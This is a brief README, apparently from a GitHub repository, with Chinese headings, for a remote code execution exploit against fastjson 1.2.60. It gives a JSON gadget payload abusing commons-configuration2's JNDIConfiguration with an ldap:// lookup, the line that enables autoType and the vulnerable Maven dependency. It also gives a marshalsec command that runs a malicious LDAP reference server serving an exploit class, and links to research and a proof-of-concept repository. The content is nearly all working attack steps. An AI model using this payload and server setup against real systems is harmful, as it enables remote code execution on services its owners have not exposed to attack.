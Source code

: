 ## gatget
```
  {"@type":"org.apache.commons.configuration2.JNDIConfiguration",
   "prefix":"ldap://127.0.0.1:1389/vul.Exploit"}
```

## 开启autotype
```
  ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```
## pom.xml额外引入gatget类
```
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.0</version>
    </dependency>
```

## reference
- [工具marshalsec](https://github.com/k6ymaker/marshalsec)
```
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/\#vul.Exploit
```
- [研究](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483807&idx=1&sn=4e9a229fb32721b353c896e1a9fab1eb&chksm=fd07cb00ca704216e9f9f99f6f615014581eb3f9a8423e8213c4840e498241cf169ffe187343&mpshare=1&scene=23&srcid=&sharer_sharetime=1569291237460&sharer_shareid=b9dede03cd3f2e7d4dbf72830bcff7c6#rd)
- [github](https://github.com/jas502n/fastjson-1.2.60-rce)